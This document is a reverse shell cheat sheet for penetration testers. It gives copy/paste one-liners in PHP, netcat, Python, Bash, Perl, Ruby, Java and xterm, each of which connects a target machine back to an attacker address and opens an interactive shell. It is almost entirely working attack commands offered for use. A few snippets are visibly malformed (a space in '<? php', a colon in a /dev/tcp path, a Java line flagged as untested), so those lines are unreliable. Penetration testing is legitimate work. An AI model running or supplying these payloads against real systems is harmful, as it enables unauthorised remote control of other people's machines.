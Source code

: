 # Reverse Shell Cheat Sheet
If you’re lucky enough to find a command execution vulnerability during a penetration test, pretty soon afterwards you’ll probably want an interactive shell.
If it’s not possible to add a new account / SSH key / .rhosts file and just log in, your next step is likely to be either trowing back a reverse shell or binding a shell to a TCP port.  This page deals with the former.
Your options for creating a reverse shell are limited by the scripting languages installed on the target system – though you could probably upload a binary program too if you’re suitably well prepared.
The examples shown are tailored to Unix-like systems.  Some of the examples below should also work on Windows if you use substitute “/bin/sh -i” with “cmd.exe”.
Each of the methods below is aimed to be a one-liner that you can copy/paste.  As such they’re quite short lines, but not very readable.
# PHP
```
php -r '$sock=fsockopen("10.18.59.236",4545);exec("/bin/sh -i <&3 >&3 2>&3");'
```
```
<? php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.2.15:4444 0>&1'"); ?>
```
```
<?php -r '$sock=fsockopen("10.18.59.236",4444);exec("/bin/sh -i <&3 >&3 2>&3");' ?>
```
# NatCat
```
nc -e /bin/sh 10.18.59.236 2222
```
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.59.236 4545 >/tmp/f
```
# Python
This was tested under Linux / Python 2.7:
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.18.59.236",4545));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
# Bash
```
bash -i >& /dev/tcp/10.18.59.236/4545 0>&1
```
```
0<&196;exec 196<>/dev/tcp/10.18.59.236/4545; sh <&196 >&196 2>&196
```
# Perl
```
perl -e 'use Socket;$i="10.18.59.236";$p=4545;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
# Ruby
```
ruby -rsocket -e'f=TCPSocket.open("10.18.59.236",4545).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
# Java
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
//Untested submission from anonymous reader
```
#XTerm
```
//One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.

xterm -display 10.0.0.1:1

//To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):

Xnest :1

//You’ll need to authorise the target to connect to you (command also run on your host):

xhost +targetip
```
